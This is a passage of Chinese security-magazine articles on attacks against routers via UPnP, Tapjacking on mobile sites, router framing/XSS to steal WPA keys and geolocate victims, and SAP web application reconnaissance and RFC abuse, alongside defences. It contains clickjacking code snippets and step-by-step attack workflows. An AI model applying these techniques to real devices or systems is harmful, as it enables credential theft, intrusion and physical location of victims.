这里 192.168.7.1 就是该无线路由器的内网 IP 地址；而 upnp=1 表示开启 UPnP 功能，upnp=0 即关闭 UPnP 功能。然后我们再来看一看构造恶意页面的思路（关于 Adobe PDF Reader 这个漏洞的详细描述大家可以参考 CVE-2008-1654 公告）。思路具体如下：

- 1. 创建一个包含请求目标 UPnP 控制点的 URLRequest 对象的 MXML 文件。例如类似 `http://192.168.0.1/upnp/control/igd/wanpppInternet` 这样的地址，这是 SOHO 路由器内置的 PPP 控制点。正如上面举的例子，这个内网 IP 地址并不固定，只需要通过改变网址以符合它们的设置即可。
- 2. 定义 POST 请求数据的内容，如将 SOAP 信息添加到 port forwarding 规则，修改 contentType 内容、SOAPAction 头部信息等。

经过反复测试修改后，就可以构成一个远端修改配置 UPnP 功能的 MXML 文件。当然，这只是一个思路，同样地，可以用于针对路由器的 XSS 攻击。图 19 所示为在 ipTime 家用无线路由器上弹出一个文本为“XSS”的简单窗体。限于篇幅，这里就不再深入讨论。
图 19

### 小结及防范建议

通过上面大量的实例可见，在不需要任何验证的情况下，攻击者是可以通过 UPnP 对 SOHO 有线/无线路由器进行攻击、破坏、骚扰的；而由于绝大多数无线路由器在默认情况下都开启 UPnP 功能，所以，目前 UPnP 已经成为现有网络中一个极大的潜在安全隐患。

避免这一切的办法很简单，就是关闭路由器上的 UPnP 功能。

前置知识：无  
关键词：手机、路由器、Tapjacking

## 针对智能手机和路由器的 Tapjacking 与物理定位攻击

文/图 CrazyRabbit

虽然很多 Internet 站点已经使用 Frame Busting 来阻止 Clickjacking，但是很少有 Mobile 站点使用 Frame Busting。类似地，很少有 Embedded 站点（如家庭路由器）使用 Frame Busting。本文将说明 Framing 攻击对于 Mobile 站点和家庭路由器具有极大的攻击性。笔者设计了一种新的攻击叫作 Tapjacking，其通过 Mobile 浏览器在手机上实现了一种强大的 Clickjacking 攻击。手机上的 Tapjacking 比传统桌面浏览器上的 Clickjacking 更有效。对于家庭路由器，本文证明了 Framing 攻击能够窃取 WiFi WPA 密钥并且准确地定位 WiFi 网络。最后，本文展示了基于层叠的 Frame Busting（如 Facebook 所使用的）可能泄漏用户的隐私信息。

很奇怪的是，这些站点在其主站上使用了 Frame Busting，而在 Mobile 站点上却不用。当我们与这些站点的开发者讨论时，主要听到如下两种言论：

- （1）旧 Mobile 浏览器不支持 Frame Busting 所需要的 JavaScript。如果使用了 Frame Busting 代码，那么在旧型号手机上将无法正常使用 Mobile 站点。然而这种担心可以通过选择性地提供服务来解决；也就是当 iPhone 或 Android 手机访问站点时就使用 Frame Busting，而在其他情况下不使用。
- （2）Clickjacking 在手机上不是个问题。

### 背景

Framing 攻击发生于浏览器中，首先一个“恶意”网页将一个被攻击页面加载为 iframe。一旦该页面被加载为浮动框架，Framing Page 就能够实施多种攻击。最常见的例子就是 Clickjacking，其中被攻击页面被加载为一个透明框架并置于一个“无害”页面上，该“无害”页面诱使用户点击上面的按钮或链接。当用户点击时，该点击事件被发送给透明框架，从而导致一些非用户本意的操作被执行（例如发送一条 tweet 或购买某个物品）。其他的 Framing 攻击包括 UI Redressing、Drag-and-drop 攻击和 Scrolling 攻击等。本文将在后面详细讨论。

防御 Framing 攻击的常规方法是 Frame Busting，即防止 Web 页面被加载为 sub-frame 的代码。以下是一段简单的常用 Frame Busting 代码：

```javascript
if (top.location != location)
    top.location = self.location;
```

一份针对流行网站 Clickjacking 防御的报告指出，仅有 14% 的 Alexa Top 500 站点使用了 Frame Busting。该报告同时还指出目前的防御方法能够被很容易地绕过，同时还提出了一些更好的 Frame Busting 方法。

笔者研究了 Mobile 站点和家庭网络设备上的 Framing 攻击。在本文中提出的攻击方法证明，智能手机和路由设备十分容易遭受 Framing 攻击，比正常的浏览器和流行站点更严重。虽然 Mobile 和 Embedded 站点有十分严重的漏洞，但是它们并没有采取良好的措施来实施保护。

53% 的 Alexa Top 500 站点都有 Mobile 站点。这些站点的域名大多为 .mobi，或者 m.*、mobile.*、wap.* 等子域名。另外，大部分 Mobile 站点都实现了其原始站点所提供的很多主要功能。

虽然 14% 的 Alexa Top 500 站点对于主站做了一些 Frame Busting，却几乎没有对 Mobile 站点做任何相关防护（我们仅发现了两个站点同时为主站和 Mobile 站点做了 Frame Busting）。因此，几乎所有的 Mobile 站点都容易遭受 Framing 攻击。

在下一节，我们将介绍 Tapjacking，一种针对 Mobile 站点的 Framing 攻击。该方法比其用于桌面系统的“兄弟”Clickjacking 更加有效。这些攻击说明，除非 Mobile 站点开始采用 Frame Busting，否则将很容易被攻陷。

要实施 Tapjacking，至少需要一个支持 JavaScript 和 Frame 的 Mobile 浏览器。我们可以使用 Mobile 浏览器的其他特性来增强攻击的有效性。iPhone 和 Android 浏览器都有 Tapjacking 需要的所有特性。另外，Opera Mini 浏览器似乎对 Tapjacking 免疫，虽然其也完全支持 JavaScript 和 Frame，我们将在下一节详细讨论。

另外，我们还发现大部分 Mobile 站点都不检查用户是否使用的是手机浏览器，有些甚至直接为桌面浏览器提供服务。同时，大部分站点都不区分主站点和 Mobile 站点的会话（即当用户登录到主站点时，同时也登录到了 Mobile 站点，反之亦然）。因此，如果主站点采用了 Frame Busting 而 Mobile 站点没有，那么攻击者能够通过 Mobile 站点来攻击桌面浏览器。例如，如果用户通过桌面浏览器登录到了 Web 邮件站点，攻击者使用桌面浏览器能够攻击该 Web 邮件站点的 Mobile 版本，从而使用受害者的邮箱发送邮件。

很显然，只要用户浏览器支持 Frame Busting，那么 Mobile 站点就应该使用 Frame Busting。如果这一点无法实现，那么至少网站不应该在主站点和 Mobile 站点间共享会话。

- 1. 攻击 Facebook。
- 2. 路由器上的 Framing 攻击。

Facebook 采用了一种有趣的 Frame Busting 防御机制。当该机制启用时，该站点会设置一个黑暗的透明 div 在页面之上。该 div 使得用户可以看到页面内容，但是在该 div 上的任何点击操作都会使前端窗口导航到 Facebook 的主站点。我们在下一节阐述，虽然该 Frame Busting 防御机制能够抵挡传统的 Clickjacking 攻击，但是攻击者仍然能够获取用户的隐私信息。我们使用了 Stone's Scrolling 技术，使用框架页面上特定的 hashtags 来获取页面上的隐私信息。细节信息将在下一节详细描述。

很多流行的 WiFi 路由器也易受 Framing 和 XSS 攻击。这些攻击能够窃取路由器的 WPA 密钥并在地图上定位路由器的位置。在本文中我们展示的攻击利用了当前版本的 Firefox 和 Chrome 中一个相同的新漏洞。我们能够在 8 种不同品牌、使用默认密码的路由器上自动地实现攻击，这 8 种路由器为：Belkin、Netgear、D-Link、Linksys、Buffalo、Zyxel、SMC 和 TrendNet。最终的结果是，生成一张 WPA 密钥世界地图，只要在有 WiFi 的地方就能够连入该 WiFi 网络。

### 手机上的 Tapjacking

本节将介绍 Tapjacking，一种利用 Mobile 浏览器实现的辅助功能的 Clickjacking。Tapjacking 表明了 Mobile 站点中使用 Frame Busting 的重要性。

#### 1. Tapjacking iPhone 上的 Safari

iPhone Safari 浏览器支持所有传统 Clickjacking 攻击所需要的功能：透明功能和 iframe。透明功能通过 Safari Mobile 中的 CSS opacity 属性来实现。同时，iPhone 中的其他特性使得我们的攻击更加危险。

- 1. Zooming 功能  
  在桌面浏览器上，攻击者能够保证用户会点击 iframe 中的准确位置。一种方法是在检测到 MouseMove 事件时将 frame 移动到相应的鼠标位置，那么用户的鼠标总是指到攻击者想让其点击的地方。由于这种方法在 iPhone 上较难实现，我们使用 iPhone 的 Zooming 功能来代替。

我们知道在智能手机上放大缩小是通过视口的 meta tag 来实现的：

```html
<meta name="viewport"
      content="width=320,
               initial-scale=10,
               user-scalable=no">


```

在这个例子中，整个视口的初始大小被设为 10（最大化）。以这个大小，任何按钮都将会覆盖整个屏幕的宽度。将这个放大的按钮放进 iframe 会使得 Clickjacking 攻击变得更有效（“有效触摸区”非常大）。

图 1 显示了一个 Twitter 的例子，Twitter 的发布按钮在一个透明 iframe 中被放大了。为了进一步确保用户只能点击目标区域，可以通过将 user-scalable 属性设为 0 来禁止进一步缩放。
图 1 Tapjacking Twitter

##### （2）隐藏或伪造地址栏

桌面系统上的 Clickjacking 攻击有一个很重要的困难，就是很难使浏览器的地址栏指向一个看似合法的 URL。这个对于 Tapjacking 不是一个问题，因此在手机上攻击者可以使地址栏不显示。以下代码演示了如何将地址栏隐藏起来：

```html
<body onload="setTimeout(function(){
    window.scrollTo(0,1)
},100);">
</body>


```

攻击者可以在 Framing page 中嵌入一张伪造地址栏的图片，从而使该页面看上去似乎来自一个合法网站。图 2 给出了一个例子。
图 2 伪造地址栏。左图显示了伪造地址栏在真实地址栏之下。中图显示了使用伪造地址栏替换真实地址栏。右图为没有地址栏的情况。

### （3）误用共享的屏幕功能

与浏览器和 iPhone UI 共享屏幕资源，使得我们有办法增强 Tapjacking 攻击。方法是创建一个页面并将该行为伪装成一个与 Web 无关的正常手机行为。例如，图 1 显示了一个看似收到短信的伪装攻击。而事实上，这个信息根本不是 SMS 应用发出的，而是一个网页伪装成一个 iPhone 应用。由于用户知道在收到短信时需要按“Close”或“Reply”按钮，他们会毫不犹豫地点击。在图 1 中，用户的点击不会显示短信内容，而是发布一个 tweet。

### （4）通过关闭导航和使用动态滚屏增强 Tapjacking

使用 touchMove 事件可以禁止对 Tapjacking 页面的任何触摸行为。这通过 preventDefault 函数来实现，如下所示：

```javascript
function touchMove(event){
    event.preventDefault();
}


```

另外，使用标准的 JavaScript 函数 `window.scrollTo(x,y)` 可以动态定位视口的位置。这样可以使攻击者能够动态地将视口移动到目标按钮上面。

##### （5）会话劫持

会话标识符通常存储在会话 cookie 中。在桌面浏览器上，当用户关闭浏览器时这些会话 cookie 就会过期。然而在 iPhone 上却不是这样。当 Mobile Safari 关闭时，会话会持续有效。这极大地帮助了攻击者，因为对于 Clickjacking 攻击，会话是十分重要的。可以向用户发送一封带恶意链接的 Email，使浏览器开始一个新的会话。

当分析 Alexa Top 100 站点时，我们发现某些 Mobile cookie 持续的时间很长。一部分原因可能是要减少用户用手机登录的次数（用手机登录很麻烦）。

##### （6）防御：X-Frame-Options HTTP 头部

该头部指示所有主要浏览器（除 Firefox）的最新版本不要加载使用 sub-frame 的网页（即相关页面是否能够被嵌入 iframe）。从 iPhone 3.0 的 Mobile Safari 开始，iPhone 就支持该技术了。因此，无论什么时候，用户浏览器都应该使用该头部以部分抵御 Framing 攻击。

#### 2. 其他 Mobile 浏览器

##### （1）Android 浏览器

我们也测试了 Motorola Droid 上面的 Android 浏览器。我们所提到的针对 iPhone 的 Tapjacking 攻击都对 Android 浏览器适用。由于 Android 浏览器也支持 iframe、透明度、尺寸缩放和视口 meta tags，因此它也是 Tapjacking 的一个很好的攻击对象。

##### （2）Opera Mini

Opera Mini 使用代理机制的系统来加快页面的显示。虽然 Opera Mini 也逐渐支持了 JavaScript 和 CSS，我们认为传统的 Clickjacking 攻击对其不奏效（我们在 iPhone 上测试了 Opera Mini 5.0.5 版本）。虽然支持了 iframe，但是却没有可靠的方法来修改透明度和尺寸缩放。这使得传统的 Clickjacking 方法很难实现，因为我们没法有效地修改目标页面上可以点击的 UI。
图 3 显示了 Facebook 所采用的 Clickjacking 措施：其将一个半透明的 div 放置于页面之上。用户能够看到他们会话的内容，但是却不能与其交互。当点击 div 时，Facebook 使用正常的 Frame Busting 技术来防御。

Clickjacking 攻击，我们发现它会泄漏用户的隐私信息。本文中使用了 Paul Stone 提出的“scrolling attack”技术。

WPA 密钥和 WiFi MAC 地址并发送回给攻击者。最后一步，攻击者使用 Mozilla 的 Location-Aware Browsing 协议在物理上定位路由器。
图 3　Facebook 的黑色 div 防御方法
图 4　攻击路由器的流程

P. Stone 在 BlackHat Europe 2010 上提出了一个绕过那些没有采用 Frame Busting 措施的网页的同源策略。大概地说，其想法是攻击者网页将受害网页 victim.com 加载到一个小的 iframe 中，然后将受害网页导航到 victim.com#test。通过读取滚动条位置，攻击者页面能够知道受害页面中是否存在 test（该过程违反了 DOM 同源策略）。

下面将展示 Stone 提出的 Frame Leak Attack（FLA）能够被广泛地用于攻击如图 3 所示的基于层叠的 Frame Busting。我们将以 Facebook 为例。

攻击过程如下：当用户访问攻击者的页面时，将显示一个不可见的长和宽很小的 double iframe。其中内层 iframe 使用特别的 hashtag 重定向到 Facebook。若用户已登录，滚动条会移动。该移动可被动态读取，因此攻击者可得知登录状态。类似地，攻击者通过不可见 iframe 导航到 vanity-name URL，测试特定 Facebook 用户对应 hashtag 是否存在，从而获取更多信息。

### 攻击路由器

很多路由器都提供 Web 接口供用户配置和查看状态。本节展示一个多阶段攻击，其中包括 XSS 注入，使攻击者可以偷取路由器上的 WPA 密钥以及判断路由器物理位置。该攻击共包含 7 个步骤，如图 4 所示。我们先判断浏览器类型，再扫描局域网定位路由器，采集路由器信息并选择默认密码与注入载荷，随后登录路由器、注入 XSS、获取 WPA 密钥和 WiFi MAC，并最终定位路由器。

我们制作了实现攻击的视频（https://elie.im/video/badmem1.html）。在多种品牌路由器上测试了该攻击的可用性，包括 Belkin、Netgear、D-Link、Linksys、Buffalo、Zyxel、SMC 和 TrendNet。攻击可在这些路由器上实现。

然而，要实现自动化路由器攻击程序比较困难，因为存在严格定义的同源策略和路由器过滤规则。针对 7 步攻击中的每一步实现，我们尝试了多种方法，很多都失败了。安全补丁以及浏览器更新迫使我们更有创造性。

#### 1. 浏览器行为

为了实现攻击，必须先了解被攻击浏览器的细节。

- **Firefox**：允许向任意域名发送 XHR 请求，可用于高效端口扫描；并可利用若干 Bug 简化路由器认证检测与利用流程。
- **Internet Explorer 8**：最难攻击；跨域 XHR 受限，需要借助图片标签等方式扫描端口；对 HTTP 认证 URL 限制较多，自动登录更困难。
- **Chrome**：几乎所有可在 Firefox 使用的方法都可迁移到 Chrome。

#### 2. 搜索路由器

为了找到路由器，端口扫描器将扫描 192.168.* 地址段中可能是路由器的 IP（如 192.168.*.1 和 192.168.*.254）。当可使用 XHR 扫描网络时，可利用异步属性并发发送大量请求。

#### 3. 搜集路由器信息

如果已经找到路由器的 IP，就可以通过一系列的测试来判断路由器的类型，并知道该试验什么默认密码。我们首先扫描路由器是否除了 Web 端口 80 外还有其他端口是开放的。另外基于我们已经提到的 Firefox 的 Bug，可以知道路由器是否使用 HTTP 验证以及测试的密码是否正确。

#### 4. 登录路由器

对于 HTTP 验证，我们要么测试所有可能的密码（Chrome）要么利用浏览器的漏洞（Firefox）。对于使用基于 Web 验证方法的路由器，我们发现可以使用跨站请求伪造（Cross Site Request Forgery，CSRF）来攻击这些路由器。然而，攻击这些路由器的真正困难并不在于发送请求，而在于是否成功通过了验证。

目前，判断是否登录成功的标准方法是基于计时攻击（Timing Attack）。也有其他的可靠方法来实现攻击。首先，跨站 URL 劫持（Cross Site URL Hijacking，XSUH）利用 Firefox 错误捕捉机制暴露了负责处理该错误的 URL。我们测试的一个 SMC 路由器在登录成功时会执行跳转。因此，通过检查返回的 URL 可以知道是否成功登录到路由器。

然而，最可靠的判断登录是否成功的方法是前文所述的 Framing Leak Attack（FLA）。该方法利用 Stone 提出的将一个 double framing 和一个 hash-tag 结合来检测某个页面是否包含某个特定的元素。为了测试用户是否登录成功，我们将内层的 iframe 导航到一个仅在成功登录后才有效的页面和 hashtag。如果滚动条出现，则用户登录成功，否则没有登录。该攻击对于任何路由器都有效，因为它们都没有使用 Frame Busting 技术。

## 5. 偷取 WiFi 信息

一旦登录到路由器上，有两种方法可以获得 WiFi 密钥：drag-and-drop 攻击或者 XSS 注入攻击。

- **XSS 注入**：如果能够使用 XSS 注入来攻击路由器，最直接的偷取 WiFi 密钥的方法是通过 CSRF 注入代码并偷取信息。XSS 代码完成如下工作：首先，打开一个包含 WPA 密钥或 MAC 等有用信息的页面的 iframe。由于 XSS 代码与打开的页面是同源的，因此其可以随意地读取脚本和数据等。然后这些数据通过跨站请求的方法发送给攻击者。
- **Framing attack**：无法实施 XSS 注入时，使用 Stone 提出的 drag-and-drop 攻击来获取信息。该攻击使得攻击者利用 HTML5 的 drag-and-drop 功能来从 framed page 上获取信息。由于我们测试的所有路由器都没有使用 Frame Busting 技术，该攻击在这些路由器上均有效。该攻击的不足是，需要使用社会工程学技术来让用户实施 drag 操作。

#### 6. 物理定位

一旦攻击者拥有了路由器的 MAC 地址，就可以使用 Mozilla 的 Location-Aware-Browsing 协议来对其进行物理定位。通过 MAC 地址来定位一个网络，对于攻击者来说是一个重要的步骤，因为攻击者能够知道受害者的准确物理位置。

### 结语

本文讨论了 Mobile 站点上的一个重要漏洞，而该漏洞却可以很容易地通过 Frame Busting 技术来消除。Mobile 站点如果不使用 Frame Busting 技术将很容易遭受 Tapjacking 攻击。通过本文的讨论，希望更多的网站开始使用 Frame Busting 来保护他们的网站。

不仅 Mobile 网站，我们还测试了 Facebook 所使用的基于层叠的 Frame Busting 技术的有效性。我们发现虽然他们的方法能够有效地阻止传统的 Clickjacking 攻击，Tapjacking 却可能使其泄漏用户的隐私信息。

本文还说明了 Web 漏洞能够让攻击者偷取使用默认密码的路由器上的 WiFi WPA 密钥。同时，Mozilla 的 Location-Aware Browsing 协议可以帮助攻击者定位受害者网络的位置。

前置知识：无

关键词：SAP、Web、攻击

## SAP Web 应用程序攻击技术
文 Mariano、Di Croce　译 小小杉

SAP 应用程序是用于企业资源计划管理的重要软件，诸如销售、进销存、制造、采购、人力资源管理和财务策划之类的关键进程都是由 SAP 软件系统来管理并处理的。SAP 应用程序的重要性决定了其必定成为网络罪犯和网络恐怖分子的重点攻击对象。如果恶意攻击者能够进入企业 SAP 平台并攻击系统核心业务，那么将导致重大的经济损失。

过去，只有在防火墙之后才能够使用这些综合业务系统，且仅供内部员工使用。而如今，现代业务需求要求这些防火墙必须打开，同时 SAP 平台也要供给外部不可信的网络（如 Internet）使用。在这种情况下，网络应用程序就成为支持这种新的互连性技术平台的必然选择。

SAP 在发展进程中开发了几个专用的网络应用程序组件：互联网交易服务器（ITS）、互联网通信管理器（ICM），以及企业门户（EP）。这些组件设有自己的安全模型，因此需要特定的知识来评估利用这些组件实施的企业信息处理可能引发的当前或后期风险。本文描述了可能影响标准应用程序及这些组件配置的安全性风险，以进一步了解可能缓解攻击的解决方案。这些信息将帮助企业更好地保护其重要的业务系统免受网络攻击。

为了处理 HTTP 和 SMTP 协议，SAP 内核本身功能已经得到了加强，因此没有必要部署一个处理 HTTP 请求的中间件。具体来说，ICF 就是负责处理请求的组件。该框架提供了访问 ICF 服务的权限。

### 3. SAP 企业门户（EP）

SAP 企业门户为 SAP 提供了一种解决方案：即运用网络对企业 SAP 系统提供唯一的访问接点。企业门户通过一个唯一的入口，为企业内部与外部资源（如企业、客户、员工、分销商、代理商、供应商、合作伙伴）等统一价值链上的相关人员，提供基于不同角色和权限的个性化信息、知识、服务与应用，将业务环境与企业广泛的资源（内部与外部资源）通过统一的企业门户平台进行管理和利用。从技术上讲，企业门户是一个运行在 SAP J2EE 引擎上的 J2EE 应用程序。该应用程序有三个主要功能：门户平台、知识管理功能和协作功能。

### SAP 网络应用程序

SAP 开发了许多不同的技术来提供访问核心后端系统的权限。本节将对这些组件进行简要介绍。

#### 1. SAP 互联网交易服务器（ITS）

ITS 发布于 1996 年，是将互联网接入 SAP 系统的第一种方法。该组件作为一个中间件，其任务主要是将 SAP Dynpros（动态程序）转换成 HTML 页面。ITS 建立在两个子组件的基础上。

- **Wgate**：为 ITS 系统接收 HTTP 请求的网络过滤器（CGI/ISAPI），同时将请求转发给 Agate。
- **Agate**：从 Wgate 接收请求，转换为 RFC/DIAG 调用，并发送至后端 SAP 应用程序服务器，同时接收结果，转换为 HTML 页面并转发给 Wgate。

图 1 所示的是一个独立 ITS 部署系统的体系结构。
图 1

ITS 功能以服务的形式传送。这些服务通过操作位于 Agate 服务器上的系统文件（.srvc）来确定。每个服务都包含连接到后端 SAP 系统的必要信息，并执行所需的操作。终端用户用特定格式的 URL 请求来访问这些服务：

```text
http://<server>:<port>/<path_to_wgate>/<service_name>/?<optional_params>
```

默认情况下，path_to_wgate 属性被配置为“/scripts/wgate/”。自从 6.40 版本以来，ITS 就已经被集成到 Web 应用服务器中，并成为 ICF（互联网通信框架）中的一种服务。

#### 2. SAP 互联网通信管理器（ICM）

### 针对 SAP 网络应用程序的攻击

本节将分析当前针对上述组件的安全威胁，以及缓解威胁的可能对策。

#### 1. 通过标识识别 SAP Web 服务器

正如任何常规 Web 服务器一样，SAP Web 服务器也返回一个描述底层技术的 HTTP 服务器头。攻击者可以利用该信息来查找这些系统，并获取它们的版本信息。

1. **ITS**：由于 ITS 面向网络的组件是一个常规的 Web 服务器（如微软 IIS、Apache 等），因此并不能通过该技术来识别 ITS 组件。  
2. **ICM**：ICM 能够返回以下服务器头：

```text
server: SAP Web Application Server (1.0,<VERSION>)
server: SAP NetWeaver Application Server (1.0,<VERSION>)
server: SAP NetWeaver Application Server /ABAP <VERSION>
server: SAP NetWeaver Application Server <VERSION> / ICM <VERSION>
```

例如：

```text
server: SAP Web Application Server (1.0,640)
server: SAP NetWeaver Application Server (1.0,700)
server: SAP NetWeaver Application Server /ABAP/701
```

3. **J2EE Engine（SAP EP）**：J2EE 引擎能够返回以下服务器头：

```text
Server: SAP J2EE Engine/<VERSION>
Server: SAP NetWeaver Application Server <VERSION> / AS Java <VERSION>
```

例如：

```text
Server: SAP J2EE Engine/7.00
Server: SAP NetWeaver Application Server 7.10 / AS Java 7.10


```

保护措施：针对 ICM 服务器，禁用或配置自定义的 HTTP 服务器头，检查 SAP 1329326 注释；针对 J2EE 引擎，通过 UseServerHeader 专用参数禁用服务器标记。

#### 2. 通过 ErrorMessages 消息研究 SAP Web 服务器

通过请求特定网址并触发错误条件，攻击者能够识别底层软件组件，并获取可能应用于下一攻击阶段的信息。

##### （1）ITS

请求一个不存在的 ITS 服务（如 `/scripts/wgate/inexistent/`）会激发一个确认该组件正在使用的错误信息。返回的界面中显示的内容取决于所使用 ITS 的版本。在某些情况下，会返回登录界面，如图 2 所示。
图 2

此外，通过分析该网页的源代码，攻击者能够从 ITS 基础设施中获得机密信息，如下所示：

```text
This page was created by the
SAP Internet Transaction Server (ITS), Version ...
Build ... Virtual Server PROD ...
WGate: AGate ...
Host ... Instance PROD ...
Creation time ...
Charset utf-8 Template ...


```

##### （2）ICM

ICM 以 HTTP 404 和 403 响应返回一个描述性的错误信息，如图 3 所示。
图 3

从这个消息中可以获得如下信息：

- SAP 服务器主机名。
- SAP 系统 ID（SAPSID）。
- SAP 系统编号。

也可以通过访问受保护的服务，来检索目标 SAP 系统的 SAPSID 属性。提示：可以使用 Onapsis Bizploit 的 icmErrorInfoDisc 插件来检测 SAP 平台是否受到影响。

##### （3）J2EE 引擎（SAP EP）

可以通过访问应用程序（`/irj/portal`）的默认路径来检测 SAP 企业门户是否存在。如果可用（并且匿名访问受到限制），将会出现如下登录界面，如图 4 所示。
图 4

此外，通过请求一个不存在的资源，也可以获得结果页面顶部的 SAP J2EE 引擎版本信息。SAP EP 同时也在生成的页面源代码中提供了版本信息，如图 5 所示。

```html
<!-- EP6, SP... -->
<meta http-equiv="Content-Script-Type" content="text/javascript">
<script src="/irj/portal/.../script.js"></script>
...
Browser: ...
OS: ...
```

图 5

保护措施：对 ITS，检测 747878 注释，并禁用公开隐藏的版本信息；对 ICM，自定义生成的错误页面以避免公开基础设施信息。

#### 3. 不受限制地访问 ICF 服务

当接收到 ICF 服务请求时，SAP 系统将首先检查该服务是否为公共服务。倘若是公共服务，将不需要认证凭证；反之，则必须进行认证操作。

在用户成功验证后，SAP 内核将检查其确实具有以下授权对象：

```text
S_ICF
ICF_FIELD = SERVICE
ICF_VALUE = <authorization_value>
```

其中 authorization_value 属性是分配在所请求服务配置的认证字段中的值。起初这种情况看似安全，但是后来却出现了一个重要的安全威胁：缺乏默认认证检测机制。默认情况下，ICF 服务没有任何配置的认证值。这意味着，任何认证用户都可以执行 ICF 服务。用户将只受定义在特定服务代码中的认证检测操作的限制。此外，标准用户，如 SAP*、DDIC、EARLYWATCH、SAPCPIC 和 TMSADM，拥有众所周知的默认密码。如果这些用户没有得到安全保护，恶意攻击者可以利用它们来访问机密的 ICF 服务并完全控制 SAP 服务器。

保护措施：运行程序 RSUSR003，确保标准用户没有默认密码；禁用任何由于业务请求而被启用的 ICF 服务；检查 SAP 1498575 注释；保存 ICF 认证数据。以下描述了一些攻击者可能滥用的危险 ICF 服务。

##### （1）信息服务

可通过网址 `/sap/public/info` 匿名访问这项服务，并发现有关 SAP 平台的机密信息，如图 6 所示。

```xml
<SOAP-ENV:Envelope>
  <SOAP-ENV:Body>
    <rfc:RFC_SYSTEM_INFO.Response>
      <RFCSI>
        <RFCIPROTO>G</RFCIPROTO>
        <RFCCHARTYP>4103</RFCCHARTYP>
        <RFCINTTYP>LIT</RFCINTTYP>
        <RFCFLOTYPE>IE3</RFCFLOTYPE>
        <RFCDEST>sapl01_TL1_00</RFCDEST>
        <RFCHOST>sapl01</RFCHOST>
        <RFCSYSID>TL1</RFCSYSID>
        <RFCDATABS>TLI</RFCDATABS>
        <RFCDBHOST>sapl01</RFCDBHOST>
        <RFCDBSYS>ORACLE</RFCDBSYS>
        <RFCSAPRL>700</RFCSAPRL>
        <RFCMACH>390</RFCMACH>
        <RFCOPSYS>Linux</RFCOPSYS>
        <RFCTZONE>-18000</RFCTZONE>
        <RFCDAYST>x</RFCDAYST>
        <RFCIPADDR>192.168.3.4</RFCIPADDR>
        <RFCKERNRL>700</RFCKERNRL>
      </RFCSI>
    </rfc:RFC_SYSTEM_INFO.Response>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>


```
保护措施：分析信息服务的使用。如果操作并未遵照业务请求执行，那么必须通过 SICF 交易撤销该服务。提示：可以使用 Onapsis Bizploit 的 icmInfo 插件来检测 SAP 平台是否受到影响。

##### （2）SOAP RFC 服务

此服务用于在 HTTP 协议上执行 SAP RFC 函数调用。RFC 协议用于在远程 SAP 服务器上执行 ABAP 功能模块，其代表系统安全的关键方面；如果该服务可用，那么远程攻击者就可以执行系统上的机密操作，这可能会导致目标 SAP 服务器崩溃。

保护措施：SOAP RFC 服务已经被 SAP 加危险标记，应该撤销该服务。

##### （3）网络 GUI 服务

Web GUI 服务是 ICM 集成的 ITS 组件的一部分，可以通过网址 `/sap/bc/gui/sap/its/webgui` 访问。该服务通过网络浏览器提供了一个完整的 SAP GUI 接口。如果该服务可用，并且攻击者拥有系统有效用户的登录凭证，那么远程攻击者就能够登录到服务器，并在业务信息中执行机密操作。

保护措施：分析 Web GUI 服务使用的操作。如果服务操作并未遵照业务请求执行，那么必须通过 SICF 交易撤销该服务。提示：可以使用 Onapsis Bizploit 的 icmWebgui 插件来检测 SAP 平台是否受到影响。

### SAP J2EE 引擎 HTTP 头变量认证

SAP J2EE 引擎允许配置不同标准（自定义）的登录模块以提供灵活的验证程序。其中一种就是 HTTP 头变量认证技术，集成 Windows 身份验证（现被 Kerberos 取代）、第三方认证工具支持的认证（EAM/WAM 解决方案）等。在这些场景中，用户认证反对中间服务器（例如 IIS 服务器或第三方解决方案，如 RSA ClearTrust）。如果身份验证程序成功，该服务器就与 SAP J2EE 引擎通信，并指引其验证用户。信息以 HTTP 头变量进行发送。当 SAP 服务器接收到请求时，就检查用户是否存在，如果确实存在，将生成一个新的单点登录凭证并转发给用户。

保护措施：该方法的整体安全性依据这样的事实，用户应该从未直接连接到 SAP 服务器，因为如果不是这样的话，他就能够在没有提供访问凭证的情况下模仿中间服务器并获取 SSO 票据。可通过在 SAP 服务器和中间认证服务器之间配置受信任的关系和认证机制来加强保护；必须禁止从终端用户到 SAP 服务器的直接请求。

### 滥用脆弱的 ICF 服务

如前所述，攻击者能够在 SAP 系统上滥用危险的 ICF 服务来执行机密操作。其中，因为 SOAP RFC 服务可以被用来执行系统远程 RFC 调用，因此它是最严重的威胁之一。这可能会导致如下攻击：

- 获取当前登录的用户信息。攻击者可以调用 TH_USER_LIST 功能模块，并获得当前登录的用户名单。
- 完全控制目标 SAP 系统。攻击者利用 UNIX 平台上 TH_GREP 函数的一个 Shell 字符注入漏洞，就能够在 SAP 应用服务器上执行操作系统命令，并完全控制系统数据库。拥有这些权限与拥有系统 SAP_ALL profile 所具有的权力相当。

由于 EARLYWATCH（用于通过 SAP AG 进行技术监督）标准用户能够执行该功能模块，因此这种情况非常危险。需要注意，上述情形只是众多攻击中的两个例子而已。然而，攻击者可以执行任何 RFC 功能模块（由被用于攻击的用户所使用的授权来决定）。如果攻击者能够获得更高权限用户的有效凭证（如 SAP*），那么就能够执行更加机密的操作（直接创建 SAP_ALL 用户、访问 SAP 表、修改业务信息等）。

### 通过 SAP wsNavigator 工具扫描内部端口

SAP J2EE 引擎中有一个名为 wsNavigator 的应用程序，用来分析 SAP J2EE 群中可用的 Web 服务。除了与这些 Web 服务交互外，该应用程序还允许用户从 URL 网域中恢复 WSDL。当出现一个 URL 时，应用程序就将 HTTP 请求分发到指定的服务器中。如果请求没有成功，则显示描述性错误信息。因此，攻击者分析产生的响应信息，就能够通过该网络接口执行位于内部网络系统中的 discovery/portscanning 操作。

下面给出一些例子。

- 1. 用一个已开放 TCP 端口连接活动主机（即运行状态），如图 7 所示。
- 2. 用一个已关闭的 TCP 端口连接活动主机，如图 8 所示。
- 3. 连接一个不可用或已被过滤的主机端口，如图 9 所示。
图 9

保护措施：在生产环境下尽量避免使用 wsNavigator 应用程序；检查 SAP 1461268 和 1394544 注释，有许多针对此漏洞的具体保护措施；同时检查 SAP 781882 和 871394 注释，其包含 J2EE 引擎上的强制性和选择性服务列表。

### 绕过安全的 SAP Portal 认证

